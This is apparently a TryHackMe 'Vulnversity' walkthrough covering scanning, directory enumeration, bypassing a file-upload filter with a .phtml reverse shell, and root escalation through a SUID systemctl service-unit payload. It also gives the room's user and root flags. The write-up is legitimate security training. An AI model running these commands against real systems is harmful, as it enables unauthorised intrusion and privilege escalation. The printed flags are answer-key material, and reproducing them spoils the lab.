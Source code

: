 # 🛡️ TryHackMe: Vulnversity – Beginner Friendly Walkthrough

**IP**: `10.10.254.212`
**User**: sivaaditya
**Date**: 26-06-2025

---

## 🧩 Task 1 – Deploy the Machine

* Start the machine in TryHackMe.
* Connect your OpenVPN:

  ```bash
  sudo openvpn yourfile.ovpn
  ```

---

## 🧩 Task 2 – Reconnaissance

### 🔍 Scan with Nmap:

```bash
nmap -sV 10.10.254.212 -vv -oN nmap/initial.txt
```

### ✅ Ports Found:

* 21 – FTP (vsftpd 3.0.5)
* 22 – SSH (OpenSSH 8.2p1)
* 139, 445 – Samba
* 3128 – Squid proxy (4.10)
* 3333 – Apache Web Server (Ubuntu)

### ✅ Answers:

* **Open Ports**: 6
* **Squid Proxy Version**: 4.10
* **-p-400 flag scans**: 400 ports
* **Likely OS**: Ubuntu
* **Web Server Port**: 3333
* **Nmap verbose flag**: `-v`

---

## 🧩 Task 3 – Directory Enumeration

### 📁 Using Gobuster:

```bash
gobuster dir -u http://10.10.254.212:3333 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

### 📂 Important Directories Found:

* `/internal/` – Upload form
* `/index.html`, `/css/`, `/fonts/`, `/js/`, etc.

### ✅ Answer:

* **Upload Form Directory**: `/internal/`

---

## 🧩 Task 4 – Compromising the Web Server

### 🚫 Upload Blocked:

* `.php` file blocked.
* `.phtml` is allowed.

### 🐚 Reverse Shell:

* Created a `.phtml` file using PHP reverse shell.
* Set listener:

```bash
nc -lvnp 1234
```

* Got shell as `www-data`

### 📄 Found User Flag:

```bash
cd /home/bill
cat user.txt
```

* **User Flag**: `8bd7992fbe8a6ad22a63361004cfcedb`
* **Username**: `bill`

---

## 🧩 Task 5 – Privilege Escalation

### 🔎 Find SUID Files:

```bash
find / -perm -u=s -type f 2>/dev/null
```

* **Interesting Binary**: `/bin/systemctl`

### ⚙️ Exploit Systemctl:

```bash
TF=$(mktemp).service
cat <<EOF > $TF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
EOF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

### 🔓 Get Root Shell:

```bash
/bin/bash -p
cd /root
cat root.txt
```

* **Root Flag**: `a58ff8579f0a9270368d33a9966c7fd5`

---

## ✅ Summary

* 🔍 Performed service scan with Nmap
* 📂 Discovered upload form using Gobuster
* 🐚 Bypassed upload filter using `.phtml`
* 🧑‍💻 Got reverse shell as `www-data`
* 🔼 Escalated privileges using `systemctl`
* 🏁 Captured user and root flags

---

## 🔗 Room Link

[TryHackMe: Vulnversity](https://tryhackme.com/room/vulnversity)

---

✍️ *Write-up by sivaaditya – 26/06/2025*
